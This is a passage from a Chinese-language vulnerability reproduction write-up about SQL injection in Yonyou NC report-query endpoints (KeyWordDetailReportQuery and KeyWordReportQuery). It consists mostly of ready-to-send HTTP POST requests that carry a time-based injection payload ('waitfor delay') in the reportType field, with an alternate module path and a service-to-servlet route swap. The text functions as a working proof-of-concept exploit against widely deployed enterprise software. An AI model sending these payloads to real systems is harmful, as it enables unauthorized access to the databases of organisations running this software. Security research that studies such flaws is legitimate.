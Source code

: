 代码差不多，只不过传参需要改一下。

### 漏洞复现

**KeyWordDetailReportQuery 接口：**

[![](assets/1704848456-58f629e774087b910aecccc91db232cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240109174822-3a28bbe6-aed4-1.png)

```plain
POST /service/~iufo/nc.itf.iufo.mobilereport.data.KeyWordDetailReportQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

{"reportType":"1';waitfor delay '0:0:3'-- ","keyword":[]}
```

或者用通用 ic 模块，当然 用友的路由把 `service`换成`servlet`也是可以的。

```plain
POST /service/~ic/nc.itf.iufo.mobilereport.data.KeyWordDetailReportQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

{"reportType":"1';waitfor delay '0:0:3'-- ","keyword":[]}
```

**KeyWordReportQuery 接口：**

```plain
POST /service/~iufo/nc.itf.iufo.mobilereport.data.KeyWordReportQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

{"reportType":"1';waitfor delay '0:0:3'-- ","pageInfo":{"currentPageIndex":1,"pageSize":1},"keyword":[]}
```
